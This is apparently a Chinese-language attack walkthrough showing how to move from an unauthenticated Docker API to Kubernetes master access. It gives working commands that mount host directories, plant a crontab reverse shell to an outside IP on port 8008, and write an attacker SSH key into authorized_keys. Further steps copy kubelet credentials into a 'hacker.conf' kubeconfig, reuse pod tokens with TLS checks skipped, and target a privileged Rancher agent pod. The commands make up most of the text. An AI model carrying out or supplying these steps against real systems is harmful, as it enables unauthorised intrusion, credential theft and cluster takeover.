






## 1. 如何从docker未授权漏洞到获得k8s master的访问权

### 1.1. docker未授权攻击步骤  

没什么好说的，和redis的利用方式很像  

* 方式一
```
# docker  -H tcp://ip:2375 run -it -v /etc:/mnt centos /bin/bash
# cp /mnt/crontab /mnt/crontab.bak
# echo -e "* * * * * root bash -i >& /dev/tcp/172.1.1.1/8008 0>&1\n" >> /mnt/crontab
```  

* 方式二
```
# docker -H tcp://ip:2375 run -it -v /root/.ssh/:/mnt centos /bin/bash
# ssh-keygen -t rsa -P '' //攻击者在本地生成密钥
# echo "xxxx" >> /mnt/authorized_keys //把密钥写入远程docker
# ssh ip //连接
```  

### 1.2. 查看是否是k8s节点  

- 首先查看是否是k8s master节点  

```
# docker -H 1.1.1.1 ps| grep apiserver
```  

- 反弹获得shell后，再查看主机是否是k8s节点  

```
# netstat -an | grep 6443 //查看是否有和6443连接，同时可以找到master的ip
# ps -ef  | grep kubelet //查看是否存在kubelet
```  

### 1.3. 复制配置文件

找到kubelet.conf文件  
  
  

把`/etc/kubernetes/kubelet.conf`的内容复制下来，并把里面的pem文件也一起复制下来。如果user是default-auth的话，权限不会太大  

  

一共三个文件：kubelet.conf、kubelet-client-current.pem和kubelet-client-current.pem  

### 1.4. 连接远程6443  

```bash
# cat hacker.conf 
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    server: https://k8s-nginx-01.xxx.cloud:6443  //改成需要连接的master的ip
  name: default-cluster
contexts:
- context:
    cluster: default-cluster
    namespace: default
    user: default-auth
  name: default-context
current-context: default-context
kind: Config
preferences: {}
users:
- name: default-auth
  user:
    client-certificate: client.pem
    client-key: client.pem

# kubectl --kubeconfig hacker.conf get pods
NAME          READY   STATUS             RESTARTS   AGE
lxcfs-qhxqt   0/1     CrashLoopBackOff   11725      41d

```  

然而并没有什么卵用，这个用户权限太低，只能一些命令  

  

### 1.5. 换个姿势

随便进入某个pod，然后查看token  

  

接着使用命令`kubectl --insecure-skip-tls-verify=true --server="https://192.168.1.1:6443" --token="eyJ....." get secrets --all-namespaces`连接试试，发现还是权限不足  

  

通过一系列的尝试后，发现k8s_agent_cattle-node-agent-fbgcq_cattle-system的pod权限比较大（因为这个是rancher的agent，所以当然有比较大权限），下一步便是通过创建pod来挂载目录，然后用crontab来获得shell了  。这里就不继续了
  
  
